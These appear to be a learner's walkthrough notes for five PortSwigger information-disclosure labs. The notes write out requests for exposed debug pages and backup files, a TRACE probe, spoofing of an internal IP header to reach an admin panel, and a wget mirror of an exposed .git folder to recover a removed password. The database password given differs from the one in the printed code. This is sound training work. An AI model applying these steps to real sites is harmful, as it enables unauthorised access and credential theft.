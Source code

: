 # Information disclosure vulnerabilities
https://portswigger.net/web-security/information-disclosure

<span style="color:yellow;font-weight:700;font-size:30px">
How to find and exploit information disclosure vulnerabilities
</span>
https://portswigger.net/web-security/information-disclosure/exploiting

hints:
/robots.txt
/sitemap.xml

# ***1. Lab: Information disclosure in error messages***

https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

To solve the lab, obtain and submit the version number of this framework. 

fiddle with product request (GET /product?productId=1 HTTP/1.1):
enter an invalid number (like: blah)
get (HTTP/1.1 500 Internal Server Error) - see apache version in the response end

# LEAKED!

# ***2. Lab: Information disclosure on debug page***
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page

To solve the lab, obtain and submit the SECRET_KEY environment variable. 

find site in Target tab and check all available pages. find hidden page (GET /cgi-bin/phpinfo.php HTTP/1.1)
send via repeater and observe response. 
search for keyword 'secret' and find the SECRET_KEY enviromental value:
u2gwtggfknnovlnuq1pp6v5bxn1zqzw5

# lEAKED!

# ***3. Lab: Source code disclosure via backup files***
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files

To solve the lab, identify and submit the database password,

1. **request**:
```
GET /robots.txt HTTP/1.1
```
response:
```
Disallow: /backup

```
2. **request**:
```
GET /backup HTTP/1.1

```
response:
```htm
<a href='/backup/ProductTemplate.java.bak'>ProductTemplate.java.bak
```

3. **request**:
```
GET /backup/ProductTemplate.java.bak HTTP/1.1
```
response: 
```json
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
            "org.postgresql.Driver",
            "postgresql",
            "localhost",
            5432,
            "postgres",
            "postgres",
            "ucwisrtrnzmu9ss9tqd01g37cidfj3sf"
    )
```

postgres DB password = cauya7395fyj31fe8ueiuhrb7nj6eitb

# lEAKED!

# ***4. Lab: Authentication bypass via information disclosure***
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

hint:
In the wild, the de-facto standard header X-Forwarded-For is often used

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account. 

scout target:
GET /admin HTTP/1.1
response:
    Admin interface only available to local users

we know server relys on IP range to allow/disallow access to admin panel

continue to scout with HTTP TRACE method:
	https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE
	https://portswigger.net/kb/issues/00500a00_http-trace-method-is-enabled

send TRACE request:
	TRACE /index.html HTTP/1.1

observe response reflects original message and adds additional header:
	X-Custom-IP-Authorization: 87.71.215.83

now we know the header the reverse proxy adds to each messege with its coresponding IP and we can use it to manipulation:

lets replace our IP with local IP:
X-Custom-IP-Authorization: 127.0.0.1

we get access to admin panel and delete carlos

method 2 - use match and replace:

# leaked



# ***5. Lab: Information disclosure in version control history***
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history

version control:
https://www.atlassian.com/git/tutorials/what-is-version-control



To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 

try:
GET /.git HTTP/1.1
list og links

/.git/refs/heads
1bfb24d3e8fe66ec543e11caf9f0e8155053e880

/.git/COMMIT_EDITMSG
Remove admin password from config


/.git/logs/HEAD

0000000000000000000000000000000000000000 4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e Carlos Montoya <carlos@evil-user.net> 1657494505 +0000	commit (initial): Add skeleton admin panel
4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e 74a6dfd3ded64686ec4db14e68f9c837840e6424 Carlos Montoya <carlos@evil-user.net> 1657494505 +0000	commit: Remove admin password from config

learned:
file 4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e contains password that as removed in file 74a6dfd3ded64686ec4db14e68f9c837840e6424

we need to check the difference between them to find the removed password. best way is to use local git to search thrue version:

download git-cola (https://git-cola.github.io/downloads.html) freeware python based local git manager
debian install:
sudo apt-get install git-cola

download full .git folder with wget:
wget -r https://0af5007b04699fcbc02d747300d00074.web-security-academy.net/.git/ 


open git-cola in downloaded folder and see in admin.conf:
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')

in Commit choose Undo last commit and get:
-ADMIN_PASSWORD=ejzczq6l2at31l2lyoaz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')

go to lab log in "administrator" with password "ejzczq6l2at31l2lyoaz"
delete carlos

# DUDE!





